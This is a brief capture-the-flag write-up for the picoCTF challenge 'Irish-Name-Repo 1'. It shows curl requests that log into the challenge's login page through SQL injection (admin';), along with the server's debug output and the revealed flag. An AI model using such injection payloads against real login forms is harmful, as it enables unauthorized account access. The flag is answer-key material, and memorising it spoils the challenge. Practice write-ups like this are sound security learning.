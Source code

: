 # Irish-Name-Repo 1

## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/39720/` ([link](https://jupiter.challenges.picoctf.org/problem/39720/)) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!

## Solucion
```bash
┌──(kali㉿kali)-[~]
└─$ curl -s https://jupiter.challenges.picoctf.org/problem/39720/login.php -d 'username=admin&password=password&debug=1'
<pre>username: admin
password: password
SQL query: SELECT * FROM users WHERE name='admin' AND password='password'
</pre><h1>Login failed.</h1>                                                       
┌──(kali㉿kali)-[~]
└─$ curl -s https://jupiter.challenges.picoctf.org/problem/39720/login.php -d 'username=admin';&password=password&debug=1'
zsh: parse error near `;&'

┌──(kali㉿kali)-[~]
└─$ curl -s https://jupiter.challenges.picoctf.org/problem/39720/login.php -d "username=admin';&password=password&debug=1"
<pre>username: admin';
password: password
SQL query: SELECT * FROM users WHERE name='admin';' AND password='password'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_c218b685}</p>           
┌──(kali㉿kali)-[~]
└─$ 

```
picoCTF{s0m3_SQL_c218b685}
## Notas adicionales
https://www.w3schools.com/sql/sql_injection.asp

## Referencias